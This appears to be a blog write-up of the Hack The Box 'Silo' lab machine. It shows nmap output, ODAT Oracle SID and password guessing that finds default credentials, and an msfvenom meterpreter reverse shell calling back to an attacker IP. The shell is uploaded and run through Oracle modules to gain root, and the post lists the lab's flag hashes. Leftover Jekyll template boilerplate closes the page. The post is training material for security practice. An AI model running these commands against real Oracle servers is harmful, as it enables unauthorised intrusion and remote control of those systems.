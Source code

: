 ```yaml
---
layout: post
title:  "HTB-SILO"
tags: got review
---
```

# HTB Silo
## Recon
```perl
Basic_10.10.10.82.nmap 10.10.10.82
Nmap scan report for 10.10.10.82
Host is up (0.046s latency).
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 8.5
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp open oracle-tns Oracle TNS listener 11.2.0.2.0 (unauthorized)
49152/tcp open msrpc Microsoft Windows RPC
49153/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
49155/tcp open msrpc Microsoft Windows RPC
49157/tcp open msrpc Microsoft Windows RPC
49160/tcp open oracle-tns Oracle TNS listener (requires service name)
49161/tcp open msrpc Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```
## Exploitation: Oracle Database Attacking Tool
1. We gonna use install ODAT to query the Oracle database and find away to exploit it
```perl
https://github.com/quentinhardy/odat
cd odat/
git submodule init
git submodule update
sudo apt-get install libaio1 python-dev alien python-pip
```
2. Get instant client basic, sdk (devel) and sqlplus from the Oracle web site:
```perl
X64: http://www.oracle.com/technetwork/topics/linuxx86-64soft-092277.html
```
3. Generate DEB packages from rpm packages
```perl
alian --to-deb *.rpm
```
4. Install deb packages
```perl
dpkg -i *.deb
```
5. Finally we need to edit our /etc/profile and put the following PATH lines
```perl
export ORACLE_HOME=/usr/lib/oracle/19.3/client64/
export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
export PATH=$ORACLE_HOME/bin:$PATH
```
Note: Sometimes when try to run oday.py will throw an error saying that **cx_Oracle** dependency module
is missing. If that happens:
```perl
pip2 install cx_Oracle
```
![odat](https://lh3.googleusercontent.com/kp-mH-gMcOqg7zPRt9fMAl0nqg5PlOSgH9jAj25Uy9r_JYxmacaflyYhiksT-r9H3W4HF9UW-dhM0EYDhIl2MloofU2DtIIxBpdDkcDfM6TZjFf3WOvI6k_HO9Lx60QYgXlymkb0G1idb0NS2FKWCVaHpV4WubO1EO3B16RhgNt5W6QJwNvvK5kjtWzb3Rc8RcNqJ6PV2UgCtF27D838agHqTUnc7Mrrj9qdXRWMMzDBgiuiRrYKRQWYbZ7MWReTKZSKG1-FvMv1aYusvvt0sbO5pj3cV3GlQWa1R2fXTI1i7UVfr8MKWiUaGeIRSTJ4NUyI1LUKFot6GOK3c8LTFChjWD3WdyQhcJZXj_WqZoaVOWLtbhae11dglP3jOM5fkC-cEMDnYbKDHS7pFaho7YlkPvbi7FV60DU-3Xs43q9cl3TpsHKEb916ubQJmmiX7uwzHUGkunQZjaYaB3aTREp6fFxAAkvQTPqj6VtDbzG8FTJjt9S70Np_BAuIVBAyutdVSg56Qj941M4PVa9crufsyc7zDIs9SeBENvvXjA3hbVHzY-aBS4zSQEi7axL6DTDhmdh5tCdNbrPw-RYfIM_YtDzDOUrAJAJo-DONRVpThHWSBE5UMoLXs47nPxkb1jlGmpLZY2Cf8Z50MiAg9n32scPB9pVf8A1N_S977ik43jU9BPdH8Gs=w711-h348-no)


6. We start odat and we use the module **sidguesser**
```perl
python odat.py sidguesser -s 10.10.10.82 -p 1521
```
![](https://lh3.googleusercontent.com/hEq9szP50RKA_3RhEiM9xws66An6o2vLUtWFSvI9EaFKAPLeME7i-GHA5VewAYrYPwJdXvN2cu9HXMDA0NANeO4EdZqTO5-Cxjz05dgMZWTEZoexwDlIoen6SgxJoFAW-u-0XqAFIV08T_FV_OV0_JGTtYYfEl3uUmHF0n6GvZnURdYs5JJ0jBIm8Nlx6fcSkQGDMFD_v4YPruTzrcjV_VexGSGIrIWJ6fQJVdL5LdN_MuWXABgFfrwalDwXgYki87PqGGY5Yq0PSL8XNtFyZ_DWdr6Ji96hOFE3hw5_81cEuPJ0nazKcrmTn5VetGD4coaOdNV-nhEXFSOaiBQp2CoHqZJtMT22Nx-Tnleij0sE0phWt5KlbtufJRIbAY4-y5WuYd-W-BmLWzVM7TbLxBZtfOenzqjr-gICND4THCrE6FhxCl2SgumXE4ktvRRJcFF5oF5BggQVta3ARwUgjyzHI7nEZMeY7jxNKg8sNeWfS1M8qNuwa9VxfBiRRPR7C7r7K0MeBJwrrlTiIKPxUS-hdvG1LE21wW5zsWeGKwKCnSGFe-XEAEfUE2jcGUpyI0UF6BraPNx0043g-U5yizWaDweFyl0xIn8vJD6mOeZbLgYsxEmOnSSkDFi1aG7qli-iZpgnaclN9t2NLmjG_omUa8WRj0aMBjhRygZ9ZJo_TvEyNesml4s=w590-h461-no)

7. Sidguesser returns two potential valid SID: **XE,XEXDB**
![](https://lh3.googleusercontent.com/h3yksJJBLdywJSs0XC-D4VtOi6Z9pZuwvefCbY44hZb1B3o3zeZQPv4Oxjuk6-y_KRrACC1BRdDkM9ly5M3mB9pKnxNrEihlyMwo-xwYGOXezUbtXrJjP4OvX8arAaZyKo52votOF_dJIkKcn_jA5gofm49l7UNt0ojOupsPmm8Hxxpf8-_aG4HF1bHKZnXE4txvB9ziIXOhze0IKhVQOMOlkRK1P6d35X4gR4t-7R1BEIuXFe2ddk0bCQYkcN64NMWVZNU4WRjrBL5KAxcakCjjaA68M4JLO2q7XeOOj_RskZsMX7Uz2luqUe-qAasA7Up8K3t1rr5yZDWeG2_mNomNX56EpOBHW8w5qAWYjQT_EbWOj64tzWEcACu23pecqQYEQw0K01l7IFHs6oU88OyrSta-B_KPYg7OOheH-JGV2LQvYite3zi6CDoTgU8cP98dTZrvpVBipIkrtlmF88G6RsNnsualTZb94BLIPiVw94Oropz9XlzHivG0QuNHOxkcIaRKIeLSfSFRmKxuukx3npQ2ZnNsliZO6XoWkCQLeXhKta1Glf9wjDCvfmhA0F5ismu1RtljeEMKzqnz_WB_sJcnp-6vKSTSMnn9Laxa9QCoOkvAXv3W6qRNFMNmLWyOFyxmkvILHxl6VABeYijVOhcDAas3IjgYN-ZUbbnVEsfJlVM-ZjE=w913-h289-no)

8. Time to get some creds by usin passwordguesser
```perl
python odat.py passwordguesser -s 10.10.10.82 -d XE
```
```perl
Valid credentials found: scott/tiger.
```
![](9https://lh3.googleusercontent.com/SqWEOd29qiiLEfqNhbm6GArlECaBiC7tjlbtjcsHQWmxNjOBPvLqgVkp-b9XFZcmZYTUFZVt_xVdxRFY98PuwPW02G8JjVlS5ZwpmBP6hxkhCi5yxw4-EEcwZpAaBRNXaAs4n8nHkb6BI6phb1ma79ak8el3O_Xu2BzMzUXgidNR-4WVnj4pE9zqr_Plu-6r3A8bBAtsq4lRGj2kqFZEfd8oME19tDW-qH9jkhrfvgeWomlotbqdpRYdW_rZVih9P007__BtsKIdQ7an6TQT3JZc0J_uoK7zDF40A32jgMUwN9R4Dph1M-wn-qdRQ_A3XkWtyVvKyl6o7xVJje-Z63nDb26ADPUfG4oQr4FVPqYXrQsgPhV9U2hMessEU4JcdAWUj0Mzh1qOfZKoDS1mg4r-dinuI-_dMVIV2SyuRR6pbqzG7T3T8P9PQYbctWuDF0uPGOXe4-V4l6n2W2YPSzhSnnyP-UNORVFOAxRy4M6ALuktnRHx4yz2GAECy5y6PLr6dHTNrWYMUnE7QRfcXfxeYtyS5n0pxLUwb7N74GOdA0vt3Rrr9zUjh-TJoLM3pns6b-EakA7cD_DFDY3b9VCHxeqnW6GoZhGAvyiKUH7KLJqt4kqqHX-YVcN6hrCRmVBroUMXo76sIaNOcWGRKjMvIngIBndjp4QLfR-3QUxV1DhC4Zhj8uo=w975-h232-no)

9. We gonna use the utlfile module to upload a reverse shell using msfvenom
```perl
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.25 LPORT=9999 -f exe -o evil.exe
python odat.py utlfile --sysdba -s 10.10.10.82 -d XE -U scott -P tiger --putFile /temp evil.exe /root/
Desktop/evil.exe
```

10. Then we gonna exec our shell using the **externaltable** module from odat
python odat.py externaltable --sysdba -s 10.10.10.82 -d XE -U scott -P tiger --exec /temp evil.exe

![](https://lh3.googleusercontent.com/-Krzjvbkc06_U7GE4sEFeTFClz5_kt8Ie7Hi0LStMElArvHcNhpuZtbDkGu-nadCXMPh_rLKZr58iGW9-oW1Ui5x-D2X-JRvLWbT6vxnYZe1BuUubrIG7pLrFBdEig1t6_mVRyRVVnNe7RnTgA37Quwq4TnElNDkbd_ESNCqZMZqQexS1YoURhWjKweTRfvKcCtLlJDnBxqLzUQBml82UDxszENpoOhIqYrXZnTWRPmIPCrp0SwYykZBuEmNS5dz8HDm4UHX1msHIJ3IRIAEZlIr6es14LvJYKE7NDWC0M1_FwlNgxM1aBzG_CrzJw5ibLN5a2CdM76WJ_aBsalnXKGu-p0mDhImhTwdScCNBaODY-6UsZenOipkt430ODG5KQkD6QAWBVJiWF-dH2IjP5gyfl1luPudYs2zLrL6El0w7CsvsSreK7zXyrh0jgkt8xFwGLSlJ1zADEqEJrmQjdHv9Bn1xRPkCX1fYANyZuT1mO6QTAQW-JX1qcxIWDO887zFw-O7rvgV-zGFBrAa8_JjBnIIpxMKWvaqW2ZuO865oPaxqWRo--eo0poyYxOt5frVK58F7mYrMeIfMr4U4t1l7cu7GBvrgze_iDA1uD1KIOLrmHnVrFjT5jH05XvZmoOmCczrnhijMLhsYYoo_blP-VNrJ2wpy3vPD04PK775cAw2NSAxXu4=w1265-h97-no)

![](https://lh3.googleusercontent.com/pV9ug_tfK2HYY-T-BDqI7nH00U4_nbGp4FbrbUNdFdij8xqFrI-Npm3kjOWBJ2i4se3wVUSsTZXS7Gp-Dmkf-VXaTPKQ-JXSGlfoDHOcMrDLM0-25F4M94r2pxf_VZpC52ijsA8QL1x6qNXgUGq8mX-XEfRY-PNU_SRoRBOugvTdv-Jwd7wPdSTjwVJOnCKvie-cDIhMKkivsI3bMO_4yc2L7_MighBeG-66DUXt3wQC8N4l4COTUf_3QpsBHXhqc7C2hcLJq5Xb72LJXAOU-v_rY5rVn2FLNcCqIE2Xi7fx79Vd0p3s1A0bWkeZHC1Al4ylneTEGVDvRtpSY-XpX2M1bK0g-rTLBlk6r34fgtClw3bJAuknHdDQnwQf_bBTd_NGruquONYqdzrfQGrW1xX2OoP2wJjBPLD2UaajZ-c_D0NCQo_s_LkJYfT-C_vFz0Y8Y_UG5dWglkn1kBBm3PAuXg0qcJgs-oqqnN66ECPQUL4oa1TOM5k6oRlu-jH8CMW7oKqbYZLdosWPP4gN8-HzvocD6qbc4Rto6p-FBe6mRcnwnzdIsS82UzY2zirGwVVjUfb3MUK3Fg2ttpgh2-l3BvZlh0rQ4WlGROG5NMr1t1nfCh5bnjhM80ahdGxn-GP5K8eSN87hNMF5Gvr7O91C8zXhS4PlCnBJZ_DOzg2G5FwPpyMs8PI=w1157-h80-no)

11. Finally we got root shell.

![](https://lh3.googleusercontent.com/YEib8--SF8_5x82BeuFNISJXM1Bu2nkY3YID88KZJ-ASnDqkv-0CV9Kq1CzppMB1ClBhEKvYZtSd2TxSSpRe_fucOD7HSvdLYbMpgXDIXclu4AyprmILXdGZ5Ld8Ts-nlkXLoAt4p43nDPNOhDGvofUL8YcFt466s2dFdMUWibdAS6K8G7HaqwoGjAOFDl0Q8WCFUFZOvpF13MU1g6NLQPwLeyY_F2Sortd389ziUue459wPSfPulKuTv1tgIBX1-vH6uams9C9f7goPagNsaxJqpNqhuNfmfVgxievovLzzHVdqR9_phE1Vil8M2HCbHKASmXoRJz_Yw_a9XEfuyKXRiEkUVGzbw_To4GCW8U13kD9LSHGpJKXvR2AjQo5dohAwmhRsvrpJ6uqcjlCA2pVFulpmOFeUboz_STHeutqitH154hghJAz47YSo8HRwxg2XUgcxgiDFJyYZfP5s3UY6WesWhNO_yAOv9j2D9OFwUZyxw7j1bENy72e4Rd_Ch9neRyqIea7Vke2ysOzAqj9JJdYKqzPpwYWXtx4WnHHmXU8NCQP3stMXaJwa0orkGqk504IvTR-mtT981vETpcTUrucc6tAK7x5adTHwpal_0PrC9l8mlM5369mNWp7LUnoM0KgwD2Et6NKGxyLH5KBgaClT1_FVKuB3k91Vt6Hdy1GIWdeW6YE=w724-h159-no)

|FLAGS| HASH|
|--------------|-----------|
| ROOT | cd39ea0af657a495e33bc59c7836faf6 |
| USER | 92ede778a1cc8d27cb6623055c331617 |

{% highlight ruby %}
def print_hi(name)
  puts "Hi, #{name}"
end
print_hi('Tom')
#=> prints 'Hi, Tom' to STDOUT.
{% endhighlight %}

Check out the [Jekyll docs][jekyll-docs] for more info on how to get the most out of Jekyll. File all bugs/feature requests at [Jekyll’s GitHub repo][jekyll-gh]. If you have questions, you can ask them on [Jekyll Talk][jekyll-talk].

[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/

